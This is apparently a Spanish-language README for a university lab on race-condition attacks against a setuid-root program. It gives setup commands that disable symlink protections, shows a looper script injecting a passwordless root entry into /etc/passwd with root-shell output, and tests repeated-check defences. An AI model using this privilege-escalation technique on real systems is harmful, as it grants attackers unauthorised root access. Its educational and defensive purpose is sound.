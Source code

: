 # RaceConditionTEC

Tarea de condiciones de carrera

# Requisitos

- Ubuntu (24.10) en ARM
- vMWare Fusion o similar

# Pasos iniciales

1. Pasar archivos voip a la maquina virtual

```
# Servidor de archivos en macOS de atacante
python3 -m http.server 80

# Traer los archivos desde la maquina virtual
curl http://IP/vulp.c -o vulp.c
curl http://IP/vulp_repetition.c -o vulp_repetition.c
curl http://IP/vulp_seteuid.c -o vulp_seteuid.c
curl http://IP/looper.sh -o looper.sh
```

2. Eliminar protecciones de seguridad de symlinks para efectos de la tarea

```
# Esto parece restablecerse siempre por lo que es mejor ejecutarlo cada vez que se inicia la VM
sudo sysctl -w fs.protected_symlinks=0
sudo sysctl fs.protected_regular=0
```

3. Compilar el programa `vulp.c`, `firegoblin.c` y asignar permisos de setuid de root

```
# Mismo proceso para todos los vulp*.c
gcc vulp.c -o vulp -lm
sudo chown root vulp
sudo chmod 4755 vulp

gcc firegoblin.c -o firegoblin
```

# Trabajo 1

Agregar entrada a `/etc/shadow` y `/etc/password` para un nuevo usuario root mediante un ataque al programa vulp.

1. Agregar nuevo usuario como prueba de como se agrega en `/etc/shadow` y `/etc/password`

```
# useradd pwned -m -G sudo
# passwd pwned

# cat /etc/shadow
pwned:$y$j9T$yb7F48eurkR2ZugVrkr4U/$TkSO.sGjtjyki/IlF018wo6kw7zd4nUUrhE9emRNb7C:20237:0:99999:7:::

# cat /etc/passwd
pwned:x:1001:1001::/home/pwned:/bin/sh
```

Es necesario para el ataque que este se asemeje a root y tenga los valores de 0 en `/etc/passwd`

Por lo que debería verse asi:

```
# cat /etc/passwd
pwned:$y$j9T$yb7F48eurkR2ZugVrkr4U/$TkSO.sGjtjyki/IlF018wo6kw7zd4nUUrhE9emRNb7C:0:0:pwned:/root:/bin/bash
```

No es necesario editar `/etc/shadow`, ya que es posible realizar una entrada en `/etc/passwd`
por medio de utilizar un hash como contraseña, una manera de hacerlo es creando un usuario
y copiándolo el valor por medio de `/etc/shadow`.
Porque se tiene la contraseña en lugar de "x" es posible
no tener que modificar ambos.

2. Ejecutar el ataque

Es necesario ejecutar el ataque por medio de un loop, ya que al ser un ataque de condición de carrera,
tiene que correrse en paralelo multiples veces hasta encontrar el exito.

```
$ ./firegoblin

// En otra terminal
$ chmod +x looper.sh
$ ./looper.sh 
```

A cierto momento se debería recibir el mensaje de exito en la terminal de looper
y se debería poder acceder al usuario creado y verificar que es root.

```
$ ./looper.sh 
PWNED :). El archivo /etc/passwd tiene que haber sido modificado.
$ su pwned
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /etc/passwd
pwned::0:0:pwned:/root:/bin/bash
```

## Mejora de la tasa de exito

Se redujo el valor de delay a 0 para comprobar si existe problemas para explotar la vulnerabilidad.
Se determinó que todavía se puede ejecutar la vulnerabilidad sin problema alguno y sin una perdida
en la tasa de exito, esto, dado al uso de la función `renameat2`, que previene condiciones de carrera en
el script atacante firegoblin.c.

# Trabajo 2

Se realiza una modificación del programa `vulp.c` y se crea `vulp_repetition.c` que valida y abre el mismo archivo
varias veces con el fin de determinar si todos son el mismo archivo o no y ejecutar la concatenation de los caracteres
enviados.

Esto tiene el fin de hacer más difícil que se haga el ataque al tener que sobrepasar varias de estas pruebas. Para este
efecto se realizaron cuatro cadenas de verificación.

```
$ ./firegoblin

# En otra terminal (se modifica looper.sh para que use vulp_repetition)
$ ./looper.sh
b./looper.sh: line 14: 34543 Done                    echo 'pwned::0:0:pwned:/root:/bin/bash'
     34544 Segmentation fault      (core dumped) | ./vulp_repetition
No permission fp3 
No permission fp4 
./looper.sh: line 14: 34552 Done                    echo 'pwned::0:0:pwned:/root:/bin/bash'
     34553 Segmentation fault      (core dumped) | ./vulp_repetition
No permission fp2 
Existe algun file descriptor invalido 
Los file descriptors no apuntan al mismo archivo 
No permission fp 
No permission fp3 
No permission fp4 

```

En suma, se dejó el programa `looper.sh` corriendo durante un tiempo y no se obtuvieron los resultados anteriormente
vistos, no fue posible realizar el ataque y el script menciona que no existen los permisos para abrir el archivo tanto a
nivel de la función `access` como en `fopen`.

Al bajar el nivel a solo dos verificaciones en lugar de 4,
si se pudo lograr modificar el archivo pero con una tasa de éxito un poco menor.